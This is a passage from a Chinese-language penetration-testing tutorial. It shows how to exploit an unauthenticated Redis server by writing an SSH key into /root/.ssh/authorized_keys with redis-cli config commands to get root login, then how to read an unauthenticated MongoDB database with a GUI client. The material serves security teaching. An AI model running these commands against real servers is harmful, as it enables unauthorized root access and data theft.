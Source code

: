![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/4295471a-f644-4fad-9609-d21871207957.png)

1.  现在我们需要将我们的密钥设置到数据库中。我们使用以下命令来做到这一点：

```
 cat redis.txt | redis-cli –h x.x.x.x –p 6451 -x set bb 
```

1.  完成后，我们需要将上传的密钥复制到`.ssh`文件夹中；首先，我们使用此命令检查当前文件夹：

```
 config get dir
```

1.  现在我们将目录更改为`/root/.ssh/`：

```
 config set dir /root/.ssh/
```

1.  接下来，我们使用`set dbfilename "authorized_keys"`更改文件名，并使用 save 保存：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/d51ca411-9c87-425f-9554-7aaee650b238.png)

1.  现在让我们尝试 SSH 进入服务器。我们看到我们是 root：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/357de6a7-6de2-4497-aedd-e74605c16b42.png)

# 对 SQL 说不-拥有 MongoDB

MongoDB 是一个免费的开源跨平台数据库程序。它使用类似 JSON 的带模式的文档。MongoDB 的默认安全配置允许任何人在未经身份验证的情况下访问数据。在这个教程中，我们将看到如何利用这个漏洞。

# 准备工作

MongoDB 默认在端口`27017`上运行。要访问 MongoDB，我们需要下载并安装 MongoDB 客户端。有多个客户端可用；我们将使用 Studio-3T，可以从[`studio3t.com/.`](https://studio3t.com/.)下载。

# 如何做...

按照以下步骤学习：

1.  安装完成后，我们打开应用程序并选择连接。

1.  在打开的窗口中，我们点击新连接：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/17ae78a6-1aa6-4130-b9c4-37a6f5545aa4.png)

1.  然后，我们选择一个名称，在服务器字段中输入 IP 地址，然后单击保存：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/52445b70-ff53-4b33-bff9-14793913546f.png)

1.  接下来，我们只需从列表中选择我们刚刚添加的数据库，然后单击连接。成功连接后，数据库名称将显示在左侧，数据将显示在右侧。

# 嵌入式设备黑客
